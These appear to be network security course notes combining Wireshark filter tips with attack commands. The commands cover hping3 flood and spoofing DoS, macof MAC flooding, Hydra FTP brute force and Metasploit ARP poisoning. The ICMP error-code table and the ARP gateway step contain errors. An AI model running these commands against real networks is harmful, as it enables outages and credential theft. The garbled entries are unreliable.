 **Instructor: Dimitris Amprazis**

#### Types of Attacks:
1. [ARP Cache Poisoning / Spoofing](#arp-cache-poisoning--spoofing-w-metasploit)
1. [SMURF Attack / ICMP Flooding](#hping-commands)
1. [Denial of Service / DoS Attack](#hydra-command)
1. [Christmas Tree Attack](#hping-commands)
1. [Brute Force Attack](#hydra-command)
1. [MAC Flooding](#macof-commands)
1. [SSL Stripping](#ssl-stripping)

---

#### Wireshark Utils:
- Comparison: 
    - source ip filter: `ip.src==216.58.198.14`
    - destination ip filter: `ip.dst==192.168.1.49`
    - `tcp.port eq 80`
    - `ip.dst != 192.168.1.1`
- Boolean filter: `http||arp`
- Boolean & Comparison filter combination: `http&&ip.src==95.100.242.40`
- Filter lost TCP Segment filter: `tcp.analysis.lost_segment`
- Filter TCP latency above n second: `tcp.time_delta > n`
- Filter Retransmitted TCP Segment: `tcp.analysis.retransmission`
- Filter a frame that contains a specific text: `frame contains username123`
- Show suspicious traffic (if any): `Analyze > Expert Information > Severity:Warning`
- Filter Specific http methods: `http.request.method==POST`
- Filter all FTP Traffic: `ftp.request.command` 
- Filter all FTP Data Traffic: `ftp-data` 
- Filter all Telnet Traffic: `telnet` 
- Filter all SMTP Traffic: `smtp` 
- Filter all DNS Traffic: `dns` 
- Filter DNS Query Answers more than 4:
  > `dns.count.answers > 4` 
  > 
  > This is used for inspecting whether any zombie is present in a network and trying to connect to a C2 server, so on DNS resolving and an answer more than 4 we can suspect it to be a malicious url.
  >
  > Also using the PDU Hierarchical Viewer and under "**Domain Name System (response)**" for a selected DNS response packet we can see the field "**Answer RRs**" that shows the DNS Query Answers returned.
- View Protocol Hierarchy: 
  > `Statistics > Protocol Hierarchy`
  >
  > The above window shows a list of protocols that has been used to communicate.
  >
  > Mostly this is used to find any suspicious traffic especially in the TCP section when the segment is shown as **"Data"**.
  >
  > Wireshark does it because it doesn't what kind of payload is present inside its PDU(there could be false +ves).
- Filtering capture before scanning:
  > NOTE: The following steps might vary for every protocol but the procedure remains the same.
  - `Capture > Capture Filters >` Press <kbd>+</kbd> `> [SET THE NAME AND FILTER]`
  - `[INTERFACE SELECTION WINDOW] > [PRESS GREEN BOOKMARK BUTTON AND SELECT THE CREATED FILTER] > [DOUBLE CLICK INTERFACE]`
- Insert a key to decrypt captured packets: `Edit > Preferences > Protocols > [SELECT SPECIFIC PROTOCOL] > Decryption Keys [EDIT] >` Press <kbd>+</kbd> ` > [ADD KEY TYPE AND KEY]`. 
- Extract a binary file from TCP Stream:
  - `Right click contextual data packet from capture window > Follow > TCP Stream`
  - `Show and save data as > Raw > Save as`
- Kerberos Misc:
  - Filter user account names: `kerberos.CNameString and !(kerberos.CNameString contains $)`
  - View domain name: `PDU Hierarchical Viewer > Kerberos > as-req > req-body > cname > realm`
- List HTTP Objects: `File > Export Objects > HTTP`

---

#### Network Utilities:
- `netstat` - Print network connections, routing tables, interface stats, masquerade connections, multicast memberships
- `ss` - utility to investigate sockets

---

#### ICMP / Ping / Host Discovery Utils:

  > **NOTE**:
  > - ICMP Payload size is 32 Bytes
  > - ICMP MTU is 1472 bytes. Beyond that packet is fragmented

  - **Ping Util**:
    > **Normal Ping Requests** - `ping 192.168.1.2`
    >
    > **Ping Requests with hostname resolution** - `ping -a 192.168.1.2`
    >
    > **Ping n number of packets** - `ping -n 8 192.168.1.2`
    >
    > **Fragment Ping packet** - `ping -l 33 192.168.1.2`
    >
    > **Netdiscover Ping Scan** - `netdiscover [-i <interface> [-r <ip_range>]]`

  - **ICMP Codes**:

    | Query Codes                       |      Error Codes                  |
    |-----------------------------------|-----------------------------------|
    | **Type 0** - Echo Reply           | **Type 3** - Echo Reply           |
    | **Type 8** - Echo Request         | **Type 4** - Echo Request         |
    | **Type 9** - Router Advertisement | **Type 5** - Router Advertisement |
    | **Type 10** - Router Solicitation | **Type 11** - Router Solicitation |
    | **Type 13** - Timestamp Request   | **Type 12** - Timestamp Request   |
    | **Type 14** - Timestamp Reply

---

#### Hping Commands:

- Perform Christmas Tree Attack:
  > \> `hping3 <victim's_ip> --flood --rand-source --destport 80 -c 25000 --syn --ack --fin --rst --push --urg --xmas --ymas`

- Perform SMURF Attack / ICMP Flooding:
  > \> `hping3 --icmp --flood -a <spoofed_victim's_ip> <broadcast_ip>`

- Perform Denial of Service / DoS Attack:
  > \> `hping3 -c <no_of_packets_to_send> -d <packet_size> -S -w <tcp_window_size> -p <port_no> --flood --randsource <target's_ip>`

---

#### macof Commands:
- Simple MAC Flooding: `macof -i <interface_name> [-n <int>]`
- Targeted MAC Flooding: `macof -i <interface_name> -d <target's_ip>`

---

#### Hydra Command:
- Perform Brute force on FTP:
  > `hydra -L <username_lists.txt> -P <passwd_lists.txt> [-vV] <target's_ip> ftp`

---

#### ARP Cache Poisoning / Spoofing (/w Metasploit):

- use the following aux module:
  >msf > `use auxiliary/spoof/arp/arp_poisoning`

- set the **target's** & **gateway's** ip address:
  >msf > `set DHOSTS <target's_ip>`
  >
  >msf > `set DHOSTS <gateway's_ip>`

- run the command:
  >msf > `exploit`

---

#### SSL Stripping:
> AKA SSL downgrade or HTTP downgrade attacks which is a type of cyber attack where hackers downgrade a web connection from the more secure **HTTPS** to the less secure **HTTP**. This makes all communications unencrypted and sets the stage for a man-in-the-middle attack, in which the hacker sits in the middle of a conversation listening or intercepting information.

---

#### Extras:
- Tor Communcations can't be monitored in Wireshark instead we can use **[NetworkMiner](https://www.netresec.com/?page=NetworkMiner)**. Also the capture data shown is much more jargonless.
